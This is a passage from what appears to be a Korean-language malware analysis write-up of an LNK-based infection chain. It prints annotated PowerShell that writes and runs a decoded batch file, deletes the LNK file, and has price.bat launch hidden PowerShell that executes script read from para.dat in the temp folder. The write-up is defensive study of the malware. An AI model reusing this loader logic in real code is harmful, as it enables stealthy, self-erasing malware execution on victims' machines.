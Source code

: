 ```powershell
Write-Host $batStrPath;

# $batByte를 utf8로 인코딩하여 $bastString에 저장
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);

# $executePath에 $bastString을 저장
$bastString | Out-File -FilePath $executePath -Encoding ascii;

# $executePath 실행
& $executePath;
```



#### 7. 객체 정리 및 lnk 파일 삭제 후 종료

```powershell
# lnkFile 객체 닫기
$lnkFile.Close();

# $lnkPath를 삭제
remove-item -path $lnkPath -force;

# 종료
"&& exit
```



### ▪ <u>price.bat 분석</u>

LNK 파일에 의해 실행되는 **price.bat** 파일 내부를 확인해보면, 다음과 같은 파워셀 코드를 확인할 수 있습니다. **para.dat** 파일에 접근하여, 파일을 읽어들여 내부에 존재하는 script를 실행합니다.

```powershell
# powershell.exe 실행
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden

# para.dat 파일 경로 획득
$stringPath=$env:temp+'\'+'para.dat';

# para.dat 파일 내의 데이터 획득
$stringByte = Get-Content -path $stringPath -encoding byte;

# para.dat 내의 데이터를 utf8로 인코딩
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);

# 인코딩한 데이터로 scriptblock을 생성
$scriptBlock = [scriptblock]::Create($string);

# 생성한 scriptblock을 실행
&$scriptBlock;
```

